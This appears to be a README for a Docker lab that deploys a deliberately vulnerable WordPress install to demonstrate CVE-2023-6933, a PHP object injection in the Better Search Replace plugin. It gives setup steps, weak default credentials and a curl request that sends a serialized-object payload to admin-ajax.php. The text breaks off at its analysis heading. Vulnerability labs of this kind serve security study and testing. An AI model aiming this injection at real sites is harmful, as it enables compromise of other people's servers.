 # CVE-2023-6933 Vulnerability Lab

## Overview
This laboratory environment demonstrates CVE-2023-6933, a critical PHP Object Injection vulnerability in the Better Search Replace WordPress plugin versions ≤1.4.4.

## Vulnerability Details
- **CVE ID**: CVE-2023-6933
- **CVSS Score**: 9.8 (Critical)
- **Affected Plugin**: Better Search Replace ≤1.4.4
- **Vulnerability Type**: PHP Object Injection via unserialized user input
- **Attack Vector**: AJAX endpoint `/wp-admin/admin-ajax.php` with action `search_replace_db`

## Quick Start

### 1. Deploy the Lab
```bash
# Clone the repository
git clone https://github.com/Trex96/vulnerable-bsr-lab-CVE-2023-6933.git
cd vulnerable-bsr-lab-CVE-2023-6933

# Deploy using Docker Hub image (automatic pull)
docker-compose up -d
```
The lab will automatically:
- Pull the vulnerable WordPress image from Docker Hub (`trex999/vulnerable-bsr-lab:latest`)
- Set up WordPress with MySQL and phpMyAdmin
- Install and activate the vulnerable Better Search Replace plugin (v1.4.4)
- Complete the installation in ~60 seconds

### 2. Access the Environment
- **WordPress**: http://localhost:8080
- **Admin Panel**: http://localhost:8080/wp-admin (admin/admin123)
- **phpMyAdmin**: http://localhost:8081 (root/rootpassword)

### 3. Test the Vulnerability
```bash
# Run the automated POC
nuclei -t nuclei-templates/cve-2023-6933.yaml -target http://localhost:8080 -v

# Manual testing via curl
curl -X POST "http://localhost:8080/wp-admin/admin-ajax.php" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d 'action=search_replace_db&search_for=O:8:"stdClass":1:{s:6:"marker";s:34:"nuclei_test_payload_demonstration";}&replace_with=test'
```

## Technical Analysis
